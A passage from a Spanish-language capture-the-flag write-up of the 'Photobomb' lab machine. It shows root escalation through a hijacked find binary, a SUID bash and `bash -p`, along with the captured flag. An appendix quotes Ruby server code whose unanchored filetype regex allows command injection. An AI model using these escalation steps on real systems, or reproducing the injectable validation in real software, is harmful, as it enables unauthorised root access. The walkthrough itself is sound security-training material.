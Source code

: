 *root*, al ejecutar *find*, hará match con */tmp/find* y ejecutará nuestro comando malicioso en vez del verdadero *find*.

Se le debería atribuir a la bash permisos *SUID*:

```bash
wizard@photobomb:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Nos *spawneamos* una shell como *root* con el comando `bash -p`:

```bash
wizard@photobomb:/tmp$ bash -p
bash-5.0## whoami
root
```

### root.txt

La última *flag* se encuentra en el *homedir* de *root*:

```bash
bash-5.0## cd /root/
bash-5.0## cat root.txt
c1526a773f48d893614094895204b186
```

## Anexo

### Inspección de código vulnerable a inyección de comandos

Este es el código que se encarga de recibir los datos que tramitamos por POST al descargar una imagen. Lo encontraremos en el directorio *~/photobomb/server.rb*:

```ruby
## server.rb

post '/printer' do
  photo = params[:photo]
  filetype = params[:filetype]
  dimensions = params[:dimensions]

  ## handle inputs
  if photo.match(/\.{2}|\//)
    halt 500, 'Invalid photo.'
  end

  if !FileTest.exist?( "source_images/" + photo )
    halt 500, 'Source photo does not exist.'
  end

  if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end

  if !dimensions.match(/^[0-9]+x[0-9]+$/)
    halt 500, 'Invalid dimensions.'
  end

  case filetype
  when 'png'
    content_type 'image/png'
  when 'jpg'
    content_type 'image/jpeg'
  end

```
